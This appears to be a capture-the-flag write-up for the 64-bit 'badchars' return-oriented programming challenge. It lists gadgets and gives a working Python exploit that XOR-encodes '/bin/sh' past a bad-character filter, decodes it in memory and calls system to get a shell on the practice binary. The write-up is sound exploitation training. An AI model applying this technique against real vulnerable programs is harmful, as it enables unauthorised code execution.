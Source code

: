 # badchars - 64 bit

we are progressing in the series and the challanges are becoming more interesting.  
     
this time we have to deal with badchars.
    
badchars are characters that will not appear in memory the way we expect them to     
and therefore will cause unexpected behaviour.    
     
for example: a null byte is the most common bad char as it will usually(not in this challange though) terminate strings. 
    
we are granted with a list of bad chars when we execute the binary. 
    
![begin](https://user-images.githubusercontent.com/60041914/78296351-3a98d600-7536-11ea-99f1-b680518e923f.png)
   
when checking out the gadgets we should look for ways to bypass this constraint.    
it's time to get creative.     
looking around I find these gadgets useful:  
```nasm
0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
0x0000000000400b40 : pop r14 ; pop r15 ; ret
0x0000000000400b39 : pop rdi ; ret
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
0x0000000000400b3b : pop r12 ; pop r13 ; ret
```
   
you might understand what I'm getting at just by looking at them.    
my plan is to place a string in memory("/bin/sh")    
whose bad chars are xored with a key and then xor these same chars again.    

plan in detail:    
1.xor the bad chars in our string with a key     
2.use "pop r12 ; pop r13 ; ret" to set r12 to the string, r13 the desired address           
3.use "mov qword ptr [r13], r12 ; ret" to write the string to memory      
preform step 4,5 for each xored char:
4.use "pop r14 ; pop r15 ; ret" to set r14 to the key,r15 to the address of the char       
5.use "xor byte ptr [r15], r14b ; ret" to xor them  
     
6.use "pop rdi ; ret" to point rdi to our decrypted string in memory      
7.call system    
8.profit????    
     
the rop chain looks like this:   
```python
bad_chars=['b', 'i', 'c', '/' ,' ','f','n','s']

CALL_SYSTEM=0x004006f0
STR_ADDR=0x00601100
SET_RDI=0x00400b39
SET_XOR_REGS = 0x00400b40
XOR_BYTES=0x00400b30
SET_REGS=0x00400b3b
WRITE_MEM=0x00400b34

xor_key=0x12

def write_str(s,addr,exp):
    #write 8 byte string with bad chars
    exp+=p64(SET_REGS)
    s=list(s)
    xored_s=[chr(ord(ch)^xor_key) if ch in bad_chars else ch for ch in s]
    exp+="".join(xored_s)
    exp+=p64(addr)
    exp+=p64(WRITE_MEM)
    for ch in s:
        if ch in bad_chars:
            exp+=p64(SET_XOR_REGS)
            exp+=chr(xor_key)+"\x00"*7
            exp+=p64(addr)
            exp+=p64(XOR_BYTES)
        addr+=1

    return exp

r=process("./badchars")
exploit=b'A'*40
exploit=write_str("/bin/sh\x00",STR_ADDR,exploit)
exploit+=p64(SET_RDI)
exploit+=p64(STR_ADDR)
exploit+=p64(CALL_SYSTEM)
```
    
it works!     
![sof](https://user-images.githubusercontent.com/60041914/78296354-3bca0300-7536-11ea-987b-6d79073ae313.png)
